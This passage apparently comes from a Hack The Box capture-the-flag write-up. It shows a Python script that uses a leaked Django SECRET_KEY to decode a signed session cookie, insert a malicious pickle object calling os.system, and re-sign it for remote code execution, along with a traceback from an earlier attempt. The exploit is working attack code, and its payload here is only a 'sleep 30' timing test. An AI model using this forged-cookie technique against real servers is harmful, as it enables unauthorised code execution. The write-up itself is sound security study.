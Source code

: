 Running this generates an error having to do with the Django session not being initiated:

```

(venv) oxdf@hacky$ python django_exploit.py 
Traceback (most recent call last):
  File "/media/sf_CTFs/hackthebox/magicgardens-10.10.11.9/django_exploit.py", line 6, in <module>
    newContent =  django.core.signing.loads(cookie,key=SECRET_KEY,serializer=django.contrib.sessions.serializers.PickleSerializer,salt='django.contrib.sessions.backends.signed_cookies')
                  ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/home/oxdf/django/venv/lib/python3.12/site-packages/django/core/signing.py", line 170, in loads
    return TimestampSigner(
           ^^^^^^^^^^^^^^^^
  File "/home/oxdf/django/venv/lib/python3.12/site-packages/django/core/signing.py", line 197, in __init__
    else settings.SECRET_KEY_FALLBACKS
         ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/home/oxdf/django/venv/lib/python3.12/site-packages/django/conf/__init__.py", line 102, in __getattr__
    self._setup(name)
  File "/home/oxdf/django/venv/lib/python3.12/site-packages/django/conf/__init__.py", line 82, in _setup
    raise ImproperlyConfigured(
django.core.exceptions.ImproperlyConfigured: Requested setting SECRET_KEY_FALLBACKS, but settings are not configured. You must either define the environment variable DJANGO_SETTINGS_MODULE or call settings.configure() before accessing settings.

```

Some work with ChatGPT helps me to solve this by adding in session initiation, which stores the secret in the session and allows removing it from the `loads` and `dumps` calls:

```

import django.core.signing, django.contrib.sessions.serializers
import os
from django.conf import settings

settings.configure(SECRET_KEY='55A6cc8e2b8#ae1662c34)618U549601$7eC3f0@b1e8c2577J22a8f6edcb5c9b80X8f4&87b')
cookie='.eJxNjU1qwzAQhZNFQgMphZyi3QhLluNoV7rvqgcwkixFbhMJ9EPpotADzHJ63zpuAp7d977Hm5_V7265mO4bH-GuJBO9PBuE1TnE_IWwTlnmksbgLUtrETafQ3LdaUgZYYGwnVCH4rOJ6Naw0TLmfz_SdqKZvu9kya67POqGHmHJEHazTEn9Yfwonvp36Y-B6OBzHBS5VMjVJvIaenN6uXUfZgNOJofwTBttmW0FrU3VcGbMgWlRKcWptIIy2Ryqfa1t0-o9VYqpyrCaG061amuuhcBC_gDes2X7:1tecu5:oPSudCgAnfUwcXeLzEYI0JyLYEiYp0zWMnetW6Tdjhs'
newContent =  django.core.signing.loads(cookie,serializer=django.contrib.sessions.serializers.PickleSerializer,salt='django.contrib.sessions.backends.signed_cookies')
class PickleRce(object):
    def __reduce__(self):
        return (os.system,("sleep 30",))
newContent['testcookie'] = PickleRce()

print(django.core.signing.dumps(newContent,serializer=django.contrib.sessions.serializers.PickleSerializer,salt='django.contrib.sessions.backends.signed_cookies',compress=True))

```
